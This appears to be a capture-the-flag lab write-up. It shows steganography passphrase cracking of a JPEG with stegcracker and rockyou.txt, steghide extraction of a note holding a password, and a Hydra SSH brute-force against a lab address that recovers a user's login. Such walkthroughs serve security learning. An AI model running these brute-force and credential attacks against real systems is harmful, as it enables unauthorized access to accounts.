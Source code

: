 #### **Bruit-force "brooklyn99.jpg" file extract password by [[Stegcracker]] tool** 
```
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2025 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20523 passwords
Your file has been written to: brooklyn99.jpg.out

admin

```
![[Pasted image 20250414184123.png]]

#### **Extract this picture embedded data `brooklyn99.jpg` by [[Steghide]] tool**
```
steghide extract -sf brooklyn99.jpg 
Enter passphrase: admin

wrote extracted data to "note.txt".
```
![[Pasted image 20250414184427.png]]

#### note.txt
```
cat note.txt                                                                                                               
Holts Password:
fluffydog12@ninenine

Enjoy!!
```
![[Pasted image 20250414184628.png]]

### Try to Bruit-force all users Credentials dumping with `Hydra`
```
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt -t 50 10.10.105.128 ssh 

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-14 20:14:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 50 tasks per 1 server, overall 50 tasks, 43033197 login tries (l:3/p:14344399), ~860664 tries per task
[DATA] attacking ssh://10.10.105.128:22/

[22][ssh] host: 10.10.105.128   login: jake   password: 987654321

```